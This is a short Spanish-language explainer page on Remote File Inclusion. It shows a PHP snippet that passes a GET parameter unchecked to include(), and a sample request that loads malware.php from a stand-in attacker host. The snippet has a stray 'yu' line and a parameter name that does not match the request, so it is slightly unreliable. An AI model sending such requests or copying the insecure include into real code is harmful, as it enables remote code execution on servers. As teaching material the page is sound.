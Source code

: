 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Remote File Inclusion (RFI)

\
Las vulnerabilidades de inclusión remota de archivos  son similares a las vulnerabilidades LFI. Sin embargo, cuando un atacante explota una vulnerabilidad RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema.

El atacante puede crear un archivo con las siguientes variables,usando el script PHP anterior, un atacante podría realizar la siguiente solicitud HTTP para engañar a la aplicación para que ejecute código malicioso en el lado del servidor:

```php
$file = $_GET['file'];
yu
include($file);
```

```
/?page=http://malicious.com/malware.php
```

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion" %}

{% embed url="https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/" %}
